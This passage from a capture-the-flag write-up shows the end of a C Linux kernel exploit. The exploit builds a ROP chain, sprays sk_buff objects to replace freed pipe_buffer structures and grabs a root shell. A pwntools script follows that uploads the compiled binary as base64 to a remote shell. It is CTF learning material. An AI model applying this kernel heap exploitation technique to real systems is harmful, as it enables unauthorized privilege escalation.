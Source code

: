 ```c
  rop_chain[off++] = user_ss;

  signal(SIGSEGV, get_shell);

  puts("[+] spray sk_buff over cg-1k and replace pipe_buf");
  for (int i = 0; i < socket_num; i++) {
    for (int j = 0; j < skbuff_num; j++) {
      write(sk_sockets[i][0], payload_2, sizeof(payload_2));
    }
  }

  puts("[+] release all pipe_bufs");
  for (int i = 0; i < pipe_buf_spray; i++) {
    close(pipe_buf_fds[i][0]);
    close(pipe_buf_fds[i][1]);
  }

  puts("[+] exiting");

  return 0;
}
```

I compiled it with `musl-gcc -static -o exploit exploit.c`.

Then, I used the following script to send the binary to remote:

```py
from pwn import *

p = remote("localhost", 1337)

p.sendlineafter(b"$", b"cd /tmp")

with open("./base64-exploit.txt", "r") as f:
    exploit = f.readlines()

p.sendlineafter(b"$", b"touch expl")

for line in exploit:
    p.sendlineafter(b"$", f"echo \"{line.strip()}\" >> expl".encode())

p.sendlineafter(b"$", b"base64 -d expl > exploit; chmod +x exploit")

p.interactive()
```

Note: I ran it with `python3 solve.py NOTERM` because the VM would output annoying carriage returns that cleared the
output.

![FLAGGG](@images/2024/lnc-2024/cheminv.png)
